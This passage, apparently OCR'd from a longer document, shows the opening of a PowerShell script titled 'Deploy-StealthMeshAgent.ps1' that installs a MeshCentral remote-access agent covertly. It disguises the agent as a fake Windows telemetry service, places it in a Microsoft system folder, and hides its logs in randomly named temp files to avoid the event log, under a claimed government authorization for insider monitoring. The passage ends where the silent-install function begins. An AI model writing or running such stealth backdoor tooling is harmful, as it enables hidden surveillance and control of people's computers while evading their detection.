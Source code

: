 ### PHASE 2: Stealth Deployment Scripts

#### PowerShell Deployment Script (Method 1: Post-Installation)

**File:** `Deploy-StealthMeshAgent.ps1`

```powershell
<#
.SYNOPSIS
    Deploys MeshCentral Agent in stealth mode with complete obfuscation
.DESCRIPTION
    Ministry of Interior authorized deployment for call center insider threat monitoring
.NOTES
    Requires: Administrator privileges
    Classification: Internal Security Operations
#>

[CmdletBinding()]
param(
    [Parameter(Mandatory=$true)]
    [string]$MeshServerUrl,

    [Parameter(Mandatory=$false)]
    [string]$MeshInstallHash = "",

    [Parameter(Mandatory=$false)]
    [ValidateSet('Basic','Advanced','Expert')]
    [string]$StealthLevel = 'Advanced'
)

#Requires -RunAsAdministrator

# Stealth configuration
$StealthConfig = @{
    ServiceName = 'WinTelemetryCore'
    DisplayName = 'Windows Telemetry Core Service'
    Description = 'Collects and transmits Windows diagnostic and usage telemetry to improve system reliability and performance.'
    InstallPath = 'C:\Windows\SystemApps\Microsoft.Windows.TelemetryCore'
    ExecutableName = 'TelemetryCore.exe'
    DatabaseName = 'telemetry.db'
    LogFileName = 'telemetry.log'
    ConfigFileName = 'telemetry.conf'
    OriginalServiceName = 'Mesh Agent'
}

function Write-StealthLog {
    param([string]$Message, [string]$Level = 'INFO')
    $timestamp = Get-Date -Format 'yyyy-MM-dd HH:mm:ss'
    $logEntry = "[$timestamp] [$Level] $Message"

    # Log only to remote server or encrypted local log (not standard Windows Event Log)
    # For deployment, we'll use a hidden temp file
    $tempLog = "$env:TEMP\~wt_$(Get-Random).tmp"
    Add-Content -Path $tempLog -Value $logEntry -Force
}

function Test-MeshAgentInstalled {
    $meshService = Get-Service -Name 'Mesh Agent' -ErrorAction SilentlyContinue
    return ($null -ne $meshService)
}

function Install-MeshAgentSilent {
```